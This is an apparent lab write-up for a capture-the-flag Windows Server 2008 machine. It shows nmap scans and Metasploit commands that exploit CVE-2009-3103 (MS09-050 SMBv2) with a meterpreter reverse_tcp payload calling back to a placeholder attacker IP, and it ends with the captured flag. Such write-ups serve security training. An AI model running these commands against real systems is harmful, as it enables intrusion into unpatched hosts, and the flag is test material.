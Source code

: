 # Internal - Windows Server 2008 Exploitation Walkthrough

This is a full exploitation walkthrough for the Internal lab machine running Windows Server 2008 Standard SP1. The objective was to exploit a vulnerable SMBv2 service and gain SYSTEM-level access, followed by flag capture.

## Target Information

IP Address: 192.168.212.40  
Operating System: Windows Server 2008 Standard SP1  
Hostname: INTERNAL  
Domain: WORKGROUP

## Enumeration

Performed an initial Nmap scan:

nmap -T4 -A -Pn 192.168.212.40 -o nmap

Discovered open ports:
- 53 (DNS)
- 135 (MSRPC)
- 139, 445 (SMB)
- 3389 (RDP)
- 5357 (HTTPAPI)
- 49152–49158 (MSRPC Dynamic Ports)

Operating system detected: Windows Server 2008 SP1  
Computer name: INTERNAL  
Message signing: disabled  
Guest access allowed: Yes  

## Vulnerability Scan

Ran vulnerability detection script on SMB port:

nmap -Pn -p445 --script vuln 192.168.212.40

Found vulnerability:  
CVE-2009-3103 - SMBv2 Negotiation Vulnerability  
The target is vulnerable to remote code execution via an array index error in the SMBv2 protocol implementation.

## Exploitation

Launched Metasploit and selected the appropriate module:

use exploit/windows/smb/ms09_050_smb2_negotiate_func_index

Set the target IP and payload:

set RHOSTS 192.168.212.40  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST <Your_Attacker_IP>  
run

Gained SYSTEM-level access.

## Captured Flag

Located the proof file:

C:\Users\Administrator\Desktop\proof.txt

Flag:

47c6c1ee45afde9538e4abfb88abe848

## Tools Used

- nmap  
- metasploit-framework  
- ms09_050 SMBv2 exploit module

## Summary

- Discovered vulnerable SMBv2 service on port 445  
- Identified CVE-2009-3103 through Nmap scripts  
- Exploited vulnerability using Metasploit  
- Gained SYSTEM access  
- Retrieved the administrator flag

## Author

Farhanahmad Quraishi
